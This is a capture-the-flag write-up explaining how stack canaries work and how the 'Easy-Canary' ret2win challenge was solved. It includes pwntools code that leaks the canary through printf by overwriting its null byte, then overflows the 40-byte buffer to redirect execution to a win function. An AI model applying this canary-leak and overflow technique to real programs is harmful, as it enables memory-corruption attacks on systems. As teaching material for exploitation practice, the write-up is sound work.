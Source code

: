 # Easy-Canary

This challenge consisted of a ret2win, with stack canaries implemented.

## Prerequisites:
Know how buffer overflows work.

## What are stack canaries?
The term comes from the historical use of canaries in coal mines. Since canaries are more vulnerable to toxic gases than humans are, coal miners would bring canary birds with them. When the canary died, they would know that they would also died soon and could safely evacuate the mine.
Stack canaries are "secret" values placed on the stack just before the return address. Attackers usually have the goal of changing the return address with a BOF (buffer overflow), but to do that, the canary must be overwritten as well.
So compilers insert code to the following:

1.Place a random canary value (at program startup) on the stack.
2.Check the canary before returning from a function.
3.If the canary is corrupted, terminate the program (usually with via \_\_stack_chk_fail()).

For more information, check out this article: https://ctf101.org/binary-exploitation/stack-canaries/

## What was the vulnerability?
In easy-canary there is a buffer-overflow opportunity to buf. The buf has a size of 40 bytes, but we can insert 256 bytes. This leads us to try to overwrite the return address with a simple BOF. However, since the canary is present, a simple BOF won't work, the program will just crash, because the canary value won't stay the same.

### Just a bit more theory.
Before we dive into the exploit we need to understand how the printf() works in C.
Imagine we have a sentence like this:
"Hey we are Capitão Sapinhas and we are a ctf team we love to do ctfs"
What's missing here? Punctuation! If we asked someone to read the first sentence they would not know that it stops at "ctf team" because there is no period.
The way that printf() works is exactly the same. For printf() to know when to stop printing stuff it needs to have a "period", in this case a null byte "\x00". Strings are null terminated (ex: "car\x00"), so functions like printf() know where to stop printing data and not reveal any sensitive information.

Now that we have that out of the way we can understand the exploit.

First part:
```
io.sendlineafter(b'> ', b'1')
payload = \x00 \* 40 + b"x"
io.send(payload)
```

In this snippet all we do is fill the buffer with 40 null bytes, and one "x".
Visually speaking
Before the attack:
[buffer(40 bytes)][canary(eg:"\x00\xFF\xFF\xFF\xFF\xFF\xFF\xFF)][returnaddress]
After the attack:
[buffer(filled)][canary(eg:"x\xFF\xFF\xFF\xFF\xFF\xFF\xFF)][returnaddress]

The printf function, instead of stopping printing at the canary, since there is no null byte, it will actually print the canary!
```
io.sendlineafter(b'> ', b'2')
io.recvuntil(payload)
canary = u64(b'\0' + io.recv(7))
log.info(f'{canary = :#0x}')
```
We print the actual canary with the "Printf your name" function. We have the canary!! Now all we have to do is a buffer overflow but replacing the canary with the value we know so that the program won't crash.
```
win = elf.symbols["win"]
print(hex(win))

payload2 = b"a" _ 40 + p64(canary) + b"b" _ 8 + p64(win+4)
print(payload2)

io.sendline(b"1")
io.recv()
io.sendline(payload2)
io.recv()
io.sendline(b"3")
io.interactive()
```

payload2 is filling the buffer, inserting the canary and changing the return address to the win function.
When we exit, the program will return to the win function.

